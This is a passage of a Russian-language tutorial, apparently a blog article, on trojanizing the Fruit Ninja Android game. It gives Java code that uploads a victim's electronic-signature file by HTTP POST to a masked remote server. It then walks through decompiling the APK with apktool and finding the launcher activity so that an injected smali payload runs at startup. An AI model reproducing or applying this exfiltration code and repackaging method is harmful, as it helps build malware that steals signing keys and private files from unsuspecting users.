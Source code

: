 Если ЭЦП найдено, то мы отправляем файл на сервер:

```java
private void sendToServer(String path) {
    File file = new File(path);
    URL url = new URL("http://xxxxxxxxxx");
    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
    urlConnection.setConnectTimeout(30 * 1000);

    urlConnection.setRequestMethod("POST");
    urlConnection.setDoOutput(true);
    urlConnection.setRequestProperty("Content-Type", "application/octet-stream");

    DataOutputStream request = new DataOutputStream(urlConnection.getOutputStream());
    request.write(readFileToByteArray(file));
    request.flush();
    request.close();

    int respCode = urlConnection.getResponseCode();
    Log.d(TAG, "Return status code: " + respCode);
}
```

## Внедряем payload

Первым делом декомпилируем Fruit Ninja, с помощью [apktool](https://ibotpeaches.github.io/Apktool/). Мы не декомпилируем приложение до java кода, так как после модификации, мы не сможем собрать его обратно. Нам необходимо получить именно smali классы. И внедрять наш код мы тоже будем в виде smali кода. 

<details><summary>Что такое smali код?</summary></details>

Далее, если мы хотим, чтобы наш payload запустился при старте приложения, мы должны модифицировать входную точку. Входной точкой любого GUI приложения является класс-потомок Activity, который принимает ACTION_MAIN. Открываем папку с декомпилированным приложением, и находим его в файле AndroidManifest.xml:

```java
<activity android:name="com.halfbrick.mortar.MortarGameLauncherActivity">
	<intent-filter>
		<action android:name="android.intent.action.MAIN"/>
		<category android:name="android.intent.category.LAUNCHER"/>
	</intent-filter>
</activity>
```

Мы нашли нужный нам класс ```com.halfbrick.mortar.MortarGameLauncherActivity```. Перед тем, как изучить его, посмотрим на жизненный цикл Activity, это нам пригодится. 
